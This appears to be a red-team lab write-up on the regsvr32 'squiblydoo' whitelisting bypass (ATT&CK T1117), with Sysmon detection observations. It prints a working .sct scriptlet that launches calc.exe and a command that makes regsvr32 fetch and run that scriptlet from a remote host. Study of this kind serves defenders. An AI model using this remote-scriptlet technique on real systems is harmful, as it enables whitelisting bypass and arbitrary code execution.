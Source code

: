 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, an evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline parameters will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

